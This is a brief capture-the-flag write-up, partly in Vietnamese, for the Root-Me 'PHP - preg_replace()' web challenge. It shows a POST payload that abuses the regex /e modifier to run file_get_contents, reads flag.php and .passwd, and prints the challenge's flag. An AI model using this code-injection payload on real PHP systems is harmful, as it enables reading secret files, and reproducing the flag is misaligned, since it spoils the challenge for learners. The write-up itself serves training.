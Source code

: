 # [PHP - preg_replace()](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

## Solution

Gửi POST request với body:

- `search=/a/e&replace=file_get_contents("flag.php")&content=a`

Đọc được nội dung file `flag.php`:

```php
<?php
$flag="".file_get_contents(".passwd")."";
?>
```

Tương tự đọc nội dung file .passwd, lấy được flag: `pr3g_r3pl4c3_3_m0d1f13r_styl3`

## References

- <https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/>
